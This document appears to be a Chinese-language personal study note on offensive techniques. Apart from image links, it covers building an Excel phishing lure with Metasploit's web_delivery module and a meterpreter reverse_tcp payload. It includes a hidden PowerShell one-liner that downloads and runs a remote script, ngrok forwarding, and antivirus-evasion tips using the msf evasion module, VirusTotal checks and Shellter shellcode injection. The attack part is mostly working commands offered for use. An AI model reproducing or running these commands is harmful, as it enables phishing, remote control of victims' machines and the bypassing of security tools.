![image-20220220223210254](E:\学习\picture\image-20220220223210254.png)

![image-20220220223230318](E:\学习\picture\image-20220220223230318.png)

![image-20220220223702428](E:\学习\picture\image-20220220223702428.png)

![image-20220220223716847](E:\学习\picture\image-20220220223716847.png)

![image-20220220223727660](E:\学习\picture\image-20220220223727660.png)

## msf制作excle钓鱼

**web_delivery**

~~~~markdown
use exploit/multi/script/web_delivery
set target 2
	target regsvr32 	windows/64/meterpreter/reverse_tcp
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.3.143
set URIPATH /
exploit 
~~~~

![image-20220220230152779](E:\学习\picture\image-20220220230152779.png)

powershell -w hidden -nop IEX (New-Object 
Net.Webclient).DownloadString('http://192.168.8.1/x.ps1')

## ngrok转发

•本机安装客户端

•./sunny clientid id号



## Msf5-Evasion模块免杀

~~~~markdown
show evasion

http://virustotal.com/   验证静态免杀 bypass
~~~~

## shellter免杀

•shellcode代码注入工具

•https://www.shellterproject.com/download/

### py免杀
